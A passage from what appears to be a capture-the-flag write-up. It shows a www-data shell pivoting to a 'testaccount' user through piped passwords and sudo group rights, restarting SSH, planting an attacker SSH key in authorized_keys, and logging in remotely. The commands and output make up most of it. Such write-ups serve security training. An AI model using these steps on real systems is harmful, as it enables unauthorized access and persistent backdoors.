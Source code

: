 We opened an other shell with `staffteam` group privilege.


### 4.3. SSH activation

This account with `staffteam` group privilege have the permission to restart SSH service.

```bash
www-data@081256f7edc3:/ $ echo testaccount | su - testaccount -c "echo testaccount | sudo -g staffteam sudo -l"
User testaccount may run the following commands on 6a7280b6ec79:
    (ALL, !root) ALL
    (ALL) NOPASSWD: /etc/init.d/apache2 restart, /etc/init.d/ssh restart
    (BASIC : staffteam) NOPASSWD: ALL
```

```
www-data@081256f7edc3:/ $ echo testaccount | su - testaccount -c "echo testaccount | sudo -g staffteam sudo /etc/init.d/ssh restart"
```

Done !

### 4.4. SSH connexion

We dropped our SSH key in `.ssh/authorized_keys` and successfully obtained remote SSH connexion.

```
www-data@081256f7edc3:/ $ echo testaccount | su - testaccount -c "id; mkdir -p .ssh; ls -al /home/testaccount; echo 'ssh-rsa AAAAB3NzaC[...]QPAbT th1b4ud@th1b4ud-pc' >> /home/testaccount/.ssh/authorized_keys; ls -al .ssh"

uid=1000(testaccount) gid=1006(testaccount) groups=1006(testaccount),1005(survive-all)
total 36
drwxr-xr-x 1 testaccount testaccount 4096 Dec 21 23:39 .
drwxr-xr-x 1 root        root        4096 Dec  5 09:11 ..
-rw-r--r-- 1 testaccount testaccount  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 testaccount testaccount 3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 testaccount testaccount  807 Apr 18  2019 .profile
drwx------ 2 testaccount staffteam   4096 Dec 21 23:51 .ssh
-rw-rw-rw- 1 testaccount testaccount  180 Dec 21 23:18 .wget-hsts
-rw-r----- 1 testaccount testaccount   84 Dec  5 09:11 TODO.txt
total 12
drwx------ 2 testaccount staffteam   4096 Dec 21 23:55 .
drwxr-xr-x 1 testaccount testaccount 4096 Dec 21 23:39 ..
-rw-r--r-- 1 testaccount testaccount  400 Dec 21 23:55 authorized_keys
```

```bash
[th1b4ud@th1b4ud-pc ~]$ ssh testaccount@survive-all.santhacklaus.xyz

Linux 1788f40d5d0e 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
testaccount@1788f40d5d0e:~$ 
```
